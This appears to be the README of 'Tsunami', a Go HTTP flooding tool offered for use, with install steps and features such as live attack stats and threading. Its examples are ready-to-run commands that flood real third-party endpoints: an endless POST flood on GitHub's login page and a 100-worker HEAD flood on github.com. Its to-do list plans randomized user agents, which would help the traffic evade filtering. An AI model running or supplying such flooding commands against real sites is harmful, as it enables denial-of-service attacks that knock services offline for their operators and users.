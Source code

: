 # Tsunami
An advanced HTTP flooder written in Golang

__This project is a huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Features
- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

## Examples
### Low volume POST flood lasting forever
```bash
./tsunami -w 2 "https://github.com/login" POST "username=Ammar&password=g1thuB123"
```
## High volume HEAD flood lasting for 10 minutes
```bash
./tsunami -w 100 -s 600 "https://github.com/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - Custom headers
 - ???